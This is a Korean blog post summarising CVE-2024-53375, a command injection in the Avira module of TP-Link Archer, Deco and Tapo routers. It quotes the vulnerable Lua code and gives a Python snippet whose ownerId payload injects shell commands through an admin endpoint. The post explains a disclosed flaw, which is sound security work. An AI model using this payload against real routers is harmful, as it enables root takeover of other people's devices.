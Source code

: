 ```yaml
---
title: "[하루한줄] CVE-2024-53375: TP-Link 원격 코드 실행 취약점"
author: L0ch
tags: [tp-link, rce, command injection, L0ch]
categories: [1day1line]
date: 2024-12-05 13:30:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://thottysploity.github.io/posts/cve-2024-53375/

## Target

- HomeShield 기능이 존재하는 TP-Link 기기
    - TP-Link Archer Series
    - TP-Link Deco Series
    - TP-Link Tapo Series

## Explain

TP-Link 라우터 시리즈의 원격 코드 실행 취약점에 대한 세부 정보가 공개되었습니다.

취약점은 인증된 유저가 접근 가능한.  `/admin/smart_network?form=tmp_avira` 엔드포인트에 존재합니다.

해당 엔드포인트로의 요청은 기기에 포함되어 root 권한으로 동작하는 Avira antivirus 모듈인 `avira.lua` 파일의 `tmp_get_sites` 함수에서 처리됩니다.



```
function AVIRA_GATHER: tmp_get_sites (app_form) 
		local data = json.decode(app_form.data)
		local res  = {}
		local result = {}
		
		debug("")
		debug("===> opcode 0x0523: tmp_get_sites")
		
		local ownerId = data.ownerId         --int
		local day = data.date                --string, today/yesterday
		local siteType = data.type           --string website type, block/visit	
		local startIndex = data.startIndex   --int
		local amount = data.amount           --int

		-- NOTE: get response data
		-- PROC_PCTL = "/proc/pctl/" 
		-- PROC_BLOCK = "/proc/block/block_insight"
		-- Init response data
		result.startIndex = startIndex 
		result.amount = amount
		result.sum = 0
		result.websiteList = {}
		if siteType == "visit" then
			if startIndex == 0 then
				os.execute("rm -f /tmp/visitList")
				os.execute("cp".. PROC_PCTL .. ownerId .. /tmp/visitList")

```

해당 함수에서는 유저의 HTTP 요청의 포함된 파라미터 `app_form.data`를 사용합니다. 파라미터 중 `data.ownerId` 필드는 주석에서 int 타입으로 사용한다고 명시되어 있으나, 실제 코드에서는 int 타입인지 검증하는 코드가 존재하지 않습니다.

이후 `owerId`와 다른 명령어를 조합해 `os.execute`함수를 실행하며,  유저 컨트롤이 가능한 ownerId로 인해  함수를 통한 Command Injection이 가능합니다.


```
ownerid_payload = '../uptime /tmp/visitList;%s;rm -rf'%args.c
    data = {'ownerId': ownerid_payload, 'date': 'today', 'type': 'visit', 'startIndex': 0, 'amount': 1}

# Sending the payload to the vulnerable endpoint
resp = client.encrypted_request('/admin/smart_network?form=tmp_avira', {'operation': 'getInsightSites', 'data': json.dumps(data)})

```

따라서 인증된 유저는 해당 취약점을 통해 라우터의 root 권한으로 원격 코드 실행이 가능합니다.